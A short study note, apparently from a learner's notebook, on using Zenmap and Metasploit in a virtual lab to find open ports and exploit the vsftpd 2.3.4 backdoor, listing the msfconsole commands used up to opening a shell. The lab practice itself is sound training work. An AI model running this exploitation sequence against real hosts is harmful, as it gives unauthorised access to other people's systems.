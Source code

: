 # Finding open ports and exploiting them

Using Kali Linux and Metasploit (using virtual lab)

---
## 2025-08-14
**Steps:**  
- Open Zen map and scan for IP with quick scan.
- Find the IP of the virtual machine to exploit.
- Scan that IP for open ports with intense scan in Zen map.
- Select the vulnerability to exploit.
- Learn about that port and vulnerability from Rapid 7 on Google.

**Commands/Tools practiced:**  
```
`msfconsole`
 `search <open port>`
 example `search vsftpd 2.3.4`
 Interact with a module by name or index. For example **info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor**
 `use 1`
 `show options` ( to check requirements)
 (as per requirement)
 `set RHOSTS <IP of the victim pc>`
 `exploit`
 `ls` (for the list)
 `shell` (for proper format)
 `help`
 
```

![[Pasted image 20250814173122.png]]

![[Pasted image 20250814173223.png]]

